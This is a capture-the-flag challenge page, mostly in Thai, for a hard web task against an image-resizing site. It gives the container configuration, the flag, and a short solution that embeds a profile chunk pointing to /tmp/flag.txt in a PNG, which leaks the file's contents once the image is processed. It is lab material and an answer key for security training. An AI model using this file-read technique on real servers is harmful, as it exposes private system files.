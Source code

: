 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500 |

สมควรเขาได้ประสบปัญหากับการที่จะอยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน Photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค GitHub repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโจมตีโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ /tmp/flag.txt คืออะไรหน่อยสิ ทำไม่ได้ล่ะสิหึ

Format: `CSUBRU{...}`

---

## Hints

no hint

---

## Configuration

| Name | Value |
| :- | :- |
| Title | QuickScale Studio |
| Type | Dynamic Container |
| Category | Web |
| Max Attempts Allowed | Unlimited |
| Blood Bonus | Enable |
| Container Image | `ic-quick-scale-studio` |
| Service Port | 80 |
| CPU Limit (0.1 CPUs) | 1 |
| Memory Limit (MB) | 128 |
| Storage Limit (MB) | 512 |

### Flags

- `CSUBRU{cv3-2022-44268-700-34sy_[TEAM_HASH]}`

---

## Analysis

1. สร้าง PNG ที่แทรก text profile ชี้ไปที่ `/tmp/flag.txt`

   ```bash
   pngcrush -text a "profile" "/tmp/flag.txt" test.png payload.png
   ```

2. อัปโหลดไฟล์ payload แล้วดาวน์โหลดรูปที่เว็บประมวลผลให้
3. อ่านข้อมูลโปรไฟล์ที่ฝังมา

   ```bash
   exiftool -b payload.png
   ```

4. ข้อความที่เปิดได้คือ flag

